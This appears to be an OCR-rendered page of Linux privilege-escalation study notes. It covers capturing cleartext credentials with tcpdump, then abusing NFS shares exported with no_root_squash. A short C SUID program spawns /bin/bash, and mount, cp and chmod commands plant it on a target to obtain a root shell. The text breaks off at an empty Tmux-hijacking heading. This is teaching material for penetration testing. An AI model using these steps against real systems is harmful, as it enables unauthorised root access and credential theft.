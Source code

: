 ```
# Passive Traffic Capture
        


If tcpdump is installed, unprivileged users may be able to capture network traffic, including, in some cases, credentials passed in cleartext. Several tools exist, such as net-creds and PCredz that can be used to examine data being passed on the wire.



# Weak NFS Privileges(Network File System)

```$ showmount -e 10.129.2.12```

When an NFS volume is created, various options can be set:

|Option |	Description|
|-------|------------|
|root_squash |	If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user, which prevents an attacker from uploading binaries with the SUID bit set.|
|no_root_squash |	Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.|


For example, we can create a SETUID binary that executes /bin/sh using our local root user. We can then mount the /tmp directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

```
$ cat shell.c 

  #include <stdio.h>
  #include <sys/types.h>
  #include <unistd.h>
  int main(void)
  {
    setuid(0); 
    setgid(0); 
    system("/bin/bash");
  }
```

```
$ gcc shell.c -o shell

$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
$ cp shell /mnt
$ chmod u+s /mnt/shell
```

When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.




# Hijacking Tmux Sessions


create a new shared session and modify the ownership.


```
